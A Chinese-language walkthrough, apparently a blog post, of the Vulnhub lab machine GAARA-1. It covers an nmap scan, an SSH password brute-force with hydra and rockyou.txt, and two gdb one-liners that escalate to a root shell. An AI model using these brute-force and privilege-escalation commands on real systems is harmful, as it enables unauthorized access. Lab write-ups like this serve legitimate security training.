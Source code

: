 ```yaml
---
layer: article
title: Vulnhub	629 GAARA-1
tags: pentest vulnhub Walkthrough
---
```

考点：hydra,gdb

靶机链接：<https://www.vulnhub.com/entry/gaara-1,629/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| GAARA-1    | 10.0.2.31 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.31
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)

```

### WEB测试

![1](https://static.iihack.com/vulnhub/629/1.jpg)

获得目录`/Cryoserver`

![2](https://static.iihack.com/vulnhub/629/2.jpg)

获得三个目录，分别访问找信息

![3](https://static.iihack.com/vulnhub/629/3.jpg)

发现特殊字符串

![4](https://static.iihack.com/vulnhub/629/4.jpg)

上cyberchef试了试base58解密得到 `gaara:ismyname` ，然而ssh直接登录失败。

## 获得权限

暴力破解用户`gaara`的密码

```bash
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt -f 10.0.2.31 ssh -t 50
[DATA] attacking ssh://10.0.2.31:22/
[22][ssh] host: 10.0.2.31   login: gaara   password: iloveyou2
[STATUS] attack finished for 10.0.2.31 (valid pair found)
```

![5](https://static.iihack.com/vulnhub/629/5.jpg)

## 提权

上`linpeas.sh`

![6](https://static.iihack.com/vulnhub/629/6.jpg)

果断上[gtfobins](https://gtfobins.github.io/gtfobins/gdb/) 构建了两条python利用链

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

```

![7](https://static.iihack.com/vulnhub/629/7.jpg)

